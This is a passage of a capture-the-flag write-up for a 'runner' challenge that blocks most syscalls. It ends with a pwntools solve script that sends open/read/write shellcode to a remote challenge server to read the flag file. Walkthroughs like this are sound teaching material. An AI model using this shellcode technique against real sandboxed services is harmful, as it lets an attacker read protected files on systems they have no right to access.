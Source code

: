   Based on the analysis results, the syscalls that are allowed to be executed are **read()**, **write()**, and **exit()**, while the restricted syscalls that are not allowed to be executed include **mmap()**, **execve()**, and **fork()**.

2\. **Runtime Error Handling** 

If a runtime error such as a segfault, illegal instruction, or bus error occurs, the program displays the appropriate message and then terminates the process.


![](image31.png)


After analyzing everything, here is the solve script.

`solve.py`:
{{< highlight py >}}
from pwn import *

exe = "./runner"
elf = context.binary = ELF(exe, checksec=False)

def main():
    # p = elf.process(
    p = remote("159.89.193.103", 10001)

    shellcode = shellcraft.open('/flagggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg.txt')
    shellcode += shellcraft.read('rax', 'rsp', 100)
    shellcode += shellcraft.write(1, 'rsp', 100)

    compiled_shellcode = asm(shellcode)
    hex_shellcode = ''.join(f'\\x{byte:02x}' for byte in compiled_shellcode)
    p.sendline(hex_shellcode)
    p.interactive()

if __name__ == '__main__':
    main()
{{< /highlight >}}

For the flag name, adjust it in the Dockerfile. The flag name is really long :v  

![](image32.png)
